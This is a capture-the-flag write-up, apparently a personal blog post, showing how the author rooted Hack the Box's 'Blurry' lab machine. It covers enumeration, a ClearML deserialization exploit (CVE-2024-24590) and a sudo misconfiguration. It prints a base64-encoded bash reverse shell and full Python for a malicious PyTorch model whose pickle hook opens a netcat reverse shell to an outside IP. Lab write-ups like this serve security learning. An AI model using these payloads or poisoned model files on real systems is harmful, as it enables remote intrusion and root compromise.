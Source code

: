 ```yaml
---
draft: false
title: "Hack the Box #5 - Blurry without Metasploit"
date: 2024-08-20
author: William
category:
  - Tech
tags:
  - Linux
  - Security
  - Hacking
cover:
  image: hack_the_box_5_blurry.png
  alt: hack_the_box_5_blurry.png
---
```


I woke up this morning breathed in that sweet morning air. I could feel it, to days the day ima hack a box and come to the sun setting I had pwned this box by getting an AI model to execute a reverse shell that got me root! Here we go

![ChewingStraw](https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExamtrYXIyajJ5NjFtNzRzc25mdmQzbTFsNG9xamtqbHJpZXZudXhydyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/lqqB7E9CdSG76/200.gif#center)

---
## Enumeration
What can nmap tell us about this target

```bash
└─$ nmap -A -p- 10.10.11.19 -oN nmap.scan
# Nmap 7.94SVN scan initiated Sat Aug 10 11:14:11 2024 as: nmap -A -p- -oN nmap.scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to <http://app.blurry.htb/>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Aug 10 11:14:36 2024 -- 1 IP address (1 host up) scanned in 25.45 seconds

```

Lets add `app.blurry.htb` to our hosts file and run some subdomain enumeration tool to see what else is out there


```bash
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.19 -H "HOST: FUZZ.blurry.htb" -ac -o ffuf.scan

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
_______________________________________________

...
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 11ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 21ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 56ms]
```


So we have `app` , `files` and `chat` as subdomains. Adding these to the hosts file lets enumerate each of these for their sub directories.

I went ahead and dug around with both gobuster and manually exploring. When going to `app.blurry.htb` we get taken to an webapp and are prompted to create an account. Which I do, called `Deez` and poke around.

---
## Exploitation
In the investigation we find the `app` subdomain is running an app called **clear.ml** and with some trusty googling we find this vuln [https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit) to execute this script first we need to create credentials on our clear.ml account. 
![keys](https://i.imgur.com/457thdA.png#center)

Once that is done and the subdomain `api` is added to the hosts file we configure the exploit.
```bash
└──$ python3 exploit.py                                                    
                                           
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                      
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Creating a copy of clearml.conf in clearml.conf.bak
[+] Initializing ClearML
[i] Press enter after pasting the configuration
...
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
...
ClearML setup completed successfully.

```

Now we are primed for attack and it is time to pounce 

![pounce](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3JleDdvcjRmcXIweGN0bXkzajQwZ3BzaW1ja2x4MWV0MGQ3eWUwaiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26h0qOq4LxV8YcDKw/giphy.gif#center)


```bash
└─$ python3 exploit.py
...
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 2
[+] Your IP: 10.10.14.62
[+] Your Port: 1234
[+] Target Project name Case Sensitive!: Black Swan
[+] Payload to be used: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi8xMjM0IDA+JjEi | base64 -d | sh
[?] Do you want to start a listener on 1234? (y/n): y
[+] pwncat listener started on 1234
[i] This exploit requires that another user deserializes the payload on their machine.
ClearML Task: created new task id=3df2aa3a66144bbbbdba441a8689b4ed
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/3df2aa3a66144bbbbdba441a8689b4ed/output/log
[i] Please wait...
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
bash: cannot set terminal process group (220630): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ 

```

And after a little wait for the ML model to execute we get a lovely call home, which leads us nicely to the first user flag and poking around the user profile we find a SSH key which helps us keep persistence on our target.
```bash
jippity@blurry:~$ cat user.txt
================ USER_FLAG ================
jippity@blurry:~$ cat /.ssh/id_rsa
=============== PRIVATE_KEY ===============
_________________________________________
└─$ ssh -i id_rsa jippity@10.10.11.19
jippity@blurry:~$ 
```

---
## Privilege Escalation

With persistence achieved it is time to escalate to root. Transferring over linpeas using our newly acquired private key we can get a broadview of what vectors to escalation we have available to us. 

```bash
└─$ scp -i /home/kali/.ssh/id_rsa ./linpeas.sh jippity@10.10.11.19:~/
_______________________________________________________________________
jippity@blurry:~$ linpeas.sh
...
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
...
```

Looking through linpeas findings one thing stands out as interesting. There is a program `/usr/bin/evaluate_model` that when executed will be run as root and it doesn't require a password to do so. Taking a closer look at the script in question it looks to only take .pth files.
A .pth file is a compiled AI model file that is used by [PyTorch to save and load models](https://pytorch.org/tutorials/beginner/saving_loading_models.html). So in theory if we can create our own malicious model we can get this script to execute the malicious model and use it to escalate.

Here is the script ill be using:
```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, abdulrahman): # Passes input through the linear layer.
        return self.dense(abdulrahman)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.46 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'callhome.pth')
```

**Explanation of the Script**:

- **`MaliciousModel` Class**: Defines a simple neural network model.
- **`__reduce__ Method`**: Overridden to include a command that creates a reverse shell using netcat.
- **`torch.save` Function**: Saves the model to a file named `.callhome.pth`.

Pushing this onto the box and we pass the malicious model to the `evaluate_model` script as follows and wait...
```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/callhome.pth 
```

Looking to our netcat awaiting in the wings with baited breath... SHELL!!!
```Bash
# whoami
root
# cat /root/root.txt
================= ROOT_FLAG =================
```

And that is root baby! WINNING!!! And I get my [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/605) from Hack the Box as a reward.  Now that I can say with confidence I have hacked an AI model I'm going to go touch some grass :D

![touchGrass](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExdWt0Z3Z5a2R6ODhpM2h1azVqNTExazE1MHVqMms5amZzbGwzdzBsbCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VlYBM5zERKWD5ONSzi/giphy.gif#center)


